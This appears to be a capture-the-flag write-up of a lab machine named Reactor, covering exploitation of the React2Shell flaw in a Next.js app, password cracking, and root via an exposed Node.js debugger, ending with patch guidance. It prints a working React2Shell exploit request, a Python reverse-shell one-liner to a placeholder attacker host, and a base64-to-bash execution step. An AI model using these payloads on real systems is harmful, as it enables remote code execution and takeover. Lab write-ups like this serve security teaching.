Summary
Machine Overview
Reactor is an easy-difficulty Linux machine focused on web application exploitation and privilege escalation through a Next.js application and Node.js debugging interface.
Pentesting Process
Service Enumeration
The assessment began with a comprehensive service enumeration using Nmap to identify exposed services and their versions.
nmap -sC -sV 10.129.2.208
The scan identified two accessible services:
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 9.6p1 Ubuntu 3ubuntu13.16 (Ubuntu Linux; protocol 2.0)
3000/tcp open ppp?
| fingerprint-strings:
| GetRequest:
| HTTP/1.1 200 OK
| Vary: RSC, Next-Router-State-Tree, Next-Router-Prefetch, Next-Router-Segment-Prefetch, Accept-Encoding
| x-nextjs-cache: HIT
| x-nextjs-prerender: 1
| x-nextjs-stale-time: 4294967294
| X-Powered-By: Next.js
| Cache-Control: s-maxage=31536000,
| ETag: "p02u6gnhufd8t"
| Content-Type: text/html; charset=utf-8
| Content-Length: 17175
| Date: Sat, 23 May 2026 19:41:56 GMT
| Connection: close
To simplify access to the server, we assigned the domain reactor.htb to its IP address in the /etc/hosts file.
echo "10.129.2.208 reactor.htb" >> /etc/hosts
Vulnerability Assessment
The machine hosts a web application on port 3000. This application is built with Next.js.
We checked if the running application is vulnerable to the React2Shell vulnerability (CVE-2025-55182 & CVE-2025-66478), which is a widely known vulnerability in Next.js and React.js applications.
A public scanner for this vulnerability is available on GitHub [1]
We used the scanner to verify the vulnerability.
python scanner.py -u http://reactor.htb:3000
The scanner confirmed that the application is vulnerable to React2Shell.

Reverse Shell Exploitation
We exploit the React2Shell vulnerability to execute commands on the target system.
To do this, we send the following HTTP request (we execute the command pwd on the target machine)
POST / HTTP/1.1
Host: reactor.htb:3000
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/60.0.3112.113 Safari/537.36 Assetnote/1.0.0
Accept-Encoding: gzip, deflate, br
Accept: */*
Connection: keep-alive
Next-Action: x
X-Nextjs-Request-Id: b5dce965
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryx8jO2oVc6SWP3Sad
X-Nextjs-Html-Request-Id: SSTMXm7OJ_g0Ncx6jpQt9
Content-Length: 692
------WebKitFormBoundaryx8jO2oVc6SWP3Sad
Content-Disposition: form-data; name="0"
{"then":"$1:__proto__:then","status":"resolved_model","reason":-1,"value":"{\"then\":\"$B1337\"}","_response":{"_prefix":"var res=process.mainModule.require('child_process').execSync('pwd').toString().trim();;throw Object.assign(new Error('NEXT_REDIRECT'),{digest: `NEXT_REDIRECT;push;/login?a=${res};307;`});","_chunks":"$Q2","_formData":{"get":"$1:constructor:constructor"}}}
------WebKitFormBoundaryx8jO2oVc6SWP3Sad
Content-Disposition: form-data; name="1"
"$@0"
------WebKitFormBoundaryx8jO2oVc6SWP3Sad
Content-Disposition: form-data; name="2"
[]
------WebKitFormBoundaryx8jO2oVc6SWP3Sad--
The output of the command is displayed in the response. More precisely, the command output is embedded within the
HTTP/1.1 303 See Other
Vary: RSC, Next-Router-State-Tree, Next-Router-Prefetch, Next-Router-Segment-Prefetch, Accept-Encoding
cache-control: private, no-cache, no-store, max-age=0, must-revalidate
x-action-revalidated: [[],0,0]
x-action-redirect: /login?a=/opt/reactor-app;push
content-type: text/x-component
date: Sat, 23 May 2026 20:38:36 GMT
x-nextjs-cache: HIT
x-nextjs-prerender: 1
X-Powered-By: Next.js
Connection: keep-alive
Keep-Alive: timeout=5
Content-Length: 4027
We use the same technique to execute a Python reverse shell payload.
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<ATTACKER_IP>",<ATTACKER_PORT>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'
To prevent parsing problems, we encode the payload using base64 and use another Bash command to decode and execute it on the target system.
echo <BASE64_ENCODED_PAYLOAD> | base64 -d | /bin/bash
After sending the request, we receive a reverse shell connection on our listener.

Lateral Movement
After gaining initial access, we identified a SQLite database at
We found a table named users, which contained hashed passwords.

We cracked the password of the user engineer using the website CrackStation.

We use the cracked credentials to log into SSH as the user engineer (engineer:reactor1).
Post-Exploitation Enumeration
Running Processes Enumeration
We identified a process running a Node.js program as root.
ps -aux
root 1415 0.0 1.2 1066724 48716 ? Ssl 09:15 0:00 /usr/bin/node --inspect=127.0.0.1:9229 /opt/uptime-monitor/worker.js
The process is running the program worker.js and enabling a debugging interface listening on port 9229.
Using Netstat, we verified that the server is listening on port 9229.
SSH Port Forwarding
The debugging interface can be accessed only via localhost on the target machine.
To access it from our local machine, we can use SSH port forwarding:
ssh engineer@reactor.htb -L 9229:127.0.0.1:9229
Node.js Debugging Interface Enumeration
According to the Medium article [2], the Node.js debugging interface can be used to execute JavaScript code on the target system.
Chrome DevTools
In the Chrome browser, navigate to chrome://inspect to access the debugging interface.

Add The Debugging Interface
We click on Configure and add the debugging interface.

The debugging interface is now available for use.

Javascript Execution
We can access the debugging interface by clicking on the Inspect button.

We use the following JavaScript code to establish a reverse shell into the target machine. We use the same Python payload that we used previously.
const { exec } = require('child_process');
exec('echo <BASE64_PYTHON_PAYLOAD> | base64 -d | /bin/bash');

After executing the code, we get a reverse shell as the root user.

Mitigation
Remediation
The following remediation steps can help prevent exploitation of the identified vulnerabilities:
- Update React.js version from 19.0.0 (derived from the file
/opt/reactor-app/package.json) to the versions 19.0.1, 19.1.2 or 19.2.1 - Update Next.js version from 15.0.3 (derived from the file
/opt/reactor-app/package.json) to the versions 15.0.5, 15.1.9, 15.2.6, 15.3.6, 15.4.8, 15.5.7, 16.0.7, 15.6.0-canary.58 or 16.1.0-canary.12+
References
References
